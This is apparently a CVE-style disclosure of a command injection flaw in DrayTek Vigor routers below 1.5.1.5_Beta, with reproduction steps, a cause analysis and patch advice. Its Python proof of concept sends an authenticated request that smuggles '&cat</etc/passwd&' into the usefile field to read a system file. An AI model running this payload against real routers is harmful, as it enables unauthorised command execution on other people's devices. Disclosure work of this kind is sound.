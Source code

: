 

# CVE Report - Command Injection Vulnerability in DrayTek Vigor Routers (Affected Versions Below 1.5.1.5_Beta)

## Vulnerability Title

Command Injection Vulnerability in DrayTek Vigor Routers (Affected Versions Below 1.5.1.5_Beta)

## Vulnerability Description

DrayTek Vigor 3900, DrayTek Vigor 2960, and DrayTek Vigor 300B routers are vulnerable to a command injection flaw in versions below 1.5.1.5_Beta. This vulnerability occurs when the `action` parameter in `cgi-bin/mainfunction.cgi` is set to `jsonstatus`. At this point, the system directly calls the `system` function to execute commands, rather than using a safer function like `remove`, leading to inadequate blacklist policies and allowing malicious users to inject and execute arbitrary commands.

## Reproduction Steps

1. Log in to the DrayTek Vigor router.

![image](https://github.com/user-attachments/assets/8074262c-197a-4fee-979d-5140c62f4c1f)


2. Capture and send the following request, which successfully executes the command:

  ![image](https://github.com/user-attachments/assets/f8698f9a-5ef8-479f-9ba6-49bef223a6dc)


3. Use the following Python code to test the vulnerability:

   ```py
   import requests
   
   ip = "10.10.10.2"
   cookie_value = "7:95164F17CBFE1D19FD3CE3AC8EEE48A0"
   
   headers = {
       "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.216 Safari/537.36",
       "Content-Type": "application/x-www-form-urlencoded",
       "Accept": "*/*",
       "Origin": f"http://{ip}",
       "Referer": f"http://{ip}/",
       "Accept-Encoding": "gzip, deflate, br",
       "Accept-Language": "en-US,en;q=0.9",
       "Connection": "close",
   }
   
   cookies = {
       "SESSION_ID_VIGOR": cookie_value
   }
   
   data = {
       "config": "network",
       "usefile": "&cat</etc/passwd&",
       "table": "system",
       "action": "jsonstatus",
       "rtick": "1722602303899",
       "usescript": "1"
   }
   
   response = requests.post(f"http://{ip}/cgi-bin/mainfunction.cgi", headers=headers, cookies=cookies, data=data)
   
   print(response.text)
   ```

4. The response from the request shows the output of the injected command.

  ![image](https://github.com/user-attachments/assets/a526050c-42e7-46cd-9940-0c01bbb2e140)


## Cause Analysis

The cause of this vulnerability is that `cgi-bin/mainfunction.cgi` directly calls the `system` function when the `action` parameter is set to `jsonstatus`, rather than using a safer function like `remove`. Additionally, the system's blacklist policy is not strict enough, allowing for command injection.

## Affected Versions

- DrayTek Vigor 2960
- DrayTek Vigor 3900
- DrayTek Vigor 300B

Affected versions are below 1.5.1.5_Beta.

## Suggested Fix

It is recommended to update to the latest version of DrayTek Vigor routers to fix this vulnerability. Please contact DrayTek technical support for detailed patch information and fixes.

## Contact Information

- Reporter: N1nEmAn
